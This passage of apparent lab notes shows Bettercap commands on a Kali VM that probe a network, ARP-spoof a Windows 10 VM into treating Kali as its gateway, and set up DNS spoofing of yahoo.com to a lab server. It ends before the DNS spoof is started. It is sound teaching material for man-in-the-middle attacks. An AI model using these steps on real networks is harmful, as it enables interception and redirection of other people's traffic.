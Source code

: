Running Bettercap

```linux
sudo bettercap
```

View Network Information

```linux
net.show
```

> :information_source: Type `help` to see available commands and modules and to see which services are running

`net.probe` searches for other hosts in the same network. 

Enable (and disable) it using the command:

```linux
net.probe on
net.probe off
```

> :information_source: On Wireshark, `net.probe` broadcasts packets in the network. 

Configure `arp.spoof` to trick the Windows 10 VM into thinking that the Kali VM is the gateway

```linux
help arp.spoof
set arp.spoof.targets {Win10_VM_IP}
```

Check settings in `arp.spoof` module:

```linux
get arp.spoof.*
```

Start `arp.spoof`

```linux
arp.spoof on
```

### DNS Spoofing

**On Kali VM**
Configure `dns.spoof` to direct DNS requests for the domain yahoo.com to IP address of web-server2

```linux
help dns.spoof
set dns.spoof.address {web-server2-IP}
set dns.spoof.domains yahoo.com
```

Check settings of `dns.spoof`

```linux
get dns.spoof.*
```

Start `dns.spoof`
